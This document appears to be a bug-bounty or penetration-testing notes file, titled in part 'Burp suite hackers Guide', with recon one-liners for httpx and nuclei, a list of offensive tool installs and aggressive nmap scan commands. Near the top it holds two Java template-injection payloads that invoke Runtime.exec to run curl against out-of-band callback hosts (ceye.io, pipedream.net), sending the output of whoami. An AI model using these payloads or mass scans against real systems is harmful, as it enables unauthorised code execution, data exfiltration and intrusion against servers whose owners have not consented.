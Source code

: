 

httpx status code filter :

grep 200 |sed 's/\[2//g' | sed 's/\]//g' | awk {'print $1'}


$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://32te8o.ceye.io/`whoami`').waitFor()

$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl https://3f03a98d47dc0aa8c94d543febf98842.m.pipedream.net/`whoami`').waitFor()

https://3f03a98d47dc0aa8c94d543febf98842.m.pipedream.net






for d in .// ; do (cd "$d" && find -name ".txt" -print | xargs cat | httpx -silent >> nuclie.txt; cat nuclie.txt | nuclei -t /root/nuclei-templates/ -silent -o nuclie_output); done


fd txt | while read host do;do cat $host;done | httpx --silent | nuclei -t /root/nuclei-templates/ -silent -o op.txt

---------------------------------------------------------------------------------

Burp suite hackers Guide : 



IP Scanning :- 

mkdir scan
apt-get install nmap* 
apt-get install nano 
apt-get install tree screen exploitdb
GO111MODULE=on go get -v github.com/projectdiscovery/httpx/cmd/httpx
GO111MODULE=on go get -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder
GO111MODULE=on go get -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei
git clone https://github.com/projectdiscovery/nuclei-templates.git
git clone https://github.com/j3ssie/Osmedeus.git
go get -u -v github.com/lukasikic/subzy
go install -v github.com/lukasikic/subzy
git clone https://github.com/chenjj/CORScanner.git
go get -u github.com/tomnomnom/httprobe
GO111MODULE=on go get -v github.com/projectdiscovery/mapcidr/cmd/mapcidr
git clone https://github.com/projectdiscovery/naabu.git; cd naabu/v2/cmd/naabu; go build; cp naabu /usr/local/bin/; naabu -version
go get -v github.com/harleo/asnip
git clone https://github.com/laconicwolf/Nmap-Scan-to-CSV.git
git clone https://github.com/vulnersCom/nmap-vulners.git
git clone https://github.com/scipag/vulscan.git



nmap -iL file1.txt -sV -A -Pn -T5 -p- -v -oX scan.xml
python3 nmap_xml_parser.py -f /root/scan/scan.xml -csv scan.csv



